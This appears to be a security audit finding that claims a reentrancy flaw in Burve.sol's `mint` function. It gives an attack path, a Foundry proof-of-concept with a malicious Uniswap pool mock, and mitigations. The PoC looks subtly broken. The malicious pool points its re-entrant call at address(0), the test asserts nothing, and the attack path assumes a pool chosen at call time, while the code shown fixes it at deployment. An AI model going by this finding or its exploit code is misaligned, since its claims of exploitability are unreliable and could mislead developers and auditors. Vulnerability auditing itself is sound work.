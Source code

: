 Soft Maroon Cottonmouth

High

# Reentrancy in `mint` via Malicious Contracts Allows Token Theft

### Summary

**Severity:**
Likelihood-medium
Impact-high

**Description:**
The mint function in Burve.sol is vulnerable to reentrancy due to external calls (compoundV3Ranges at line 237, mintIsland at line 253, pool.mint at line 256, _mint at line 287) occurring before state updates (totalNominalLiq, islandSharesPerOwner, totalIslandShares, _balances). A malicious contract (e.g., pool, island, or token in safeTransferFrom) can re-enter mint, manipulating liquidity or shares to drain tokens or corrupt state. This violates the Checks-Effects-Interactions pattern and lacks reentrancy protection.

Lines Affected: Burve.sol(226-290) (external calls in `mint`): (https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L226-L290)


### Root Cause

Unvalidated Assumption:
Assumes `pool`, `island`, `stationProxy`, `token0`, and `token1` are non-reentrant, but lacks `ReentrancyGuard`enforcement.

### Internal Pre-conditions

1. Non-zero `amount0` or `amount1`.
2. Valid `lowerSqrtPriceLimitX96`/`upperSqrtPriceLimitX96`.
3. Non-zero `totalNominalLiq`/`totalShares`.
4. No reentrancy protection.


### External Pre-conditions

1. Malicious `pool`, `island`, or `token0`/`token1` with reentrant functions.
2. Sufficient liquidity in `pool`/`island`.

### Attack Path

1. Attacker deploys malicious `pool` with reentrant `mint`.
2. Calls `mint(100, 0, type(uint160).max, ...)` with malicious `pool`.
3. During `pool.mint` (line 256), `uniswapV3MintCallback` re-enters `mint`, minting extra shares.
4. Reentrancy inflates shares, draining tokens via subsequent `safeTransferFrom`.
5. `totalNominalLiq`/`totalShares` are corrupted.

### Impact

**Theft**: Drains tokens via repeated minting.
**State Corruption**: Desynchronizes `totalNominalLiq`/`totalShares`.
**Invariant Violated**: “`totalNominalLiq == sum of range liquidity`.”

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../Burve.sol";
import "../interfaces/IUniswapV3Pool.sol";

contract MaliciousPool is IUniswapV3Pool {
    Burve burve;
    constructor(address _burve) { burve = Burve(_burve); }
    function mint(address, int24, int24, uint128, bytes calldata) external returns (uint256, uint256) {
        burve.mint(100, 0, type(uint160).max, 0, type(uint160).max, new bytes(0));
        return (100, 100);
    }
    // Mock other functions
    function burn(int24, int24, uint128) external returns (uint256, uint256) { return (0, 0); }
    function collect(address, int24, int24, uint128, uint128) external returns (uint128, uint128) { return (0, 0); }
    function slot0() external view returns (uint160, int24, uint16, uint16, uint16, uint8, bool) { return (0, 0, 0, 0, 0, 0, false); }
}

contract BurveMintReentrancyTest is Test {
    Burve burve;
    MaliciousPool maliciousPool;
    address user = address(0x4);

    function setUp() public {
        maliciousPool = new MaliciousPool(address(0));
        burve = new Burve(address(maliciousPool), address(0x1), address(0x2), address(0x3), new TickRange[](0), new uint256[](0));
        deal(address(0x1), user, 1000);
        deal(address(0x2), user, 1000);
    }

    function testMintReentrancy() public {
        vm.prank(user);
        burve.mint(100, 0, type(uint160).max, 0, type(uint160).max, new bytes(0));
        // Assert token drainage or state corruption
    }
}

### Mitigation

**Recommendation**
1.ReentrancyGuard: Use nonReentrant on mint.
2.Checks-Effects-Interactions: Update totalNominalLiq/totalShares before external calls.
3.Validate Contracts: Restrict pool, island, token0/token1 to trusted addresses.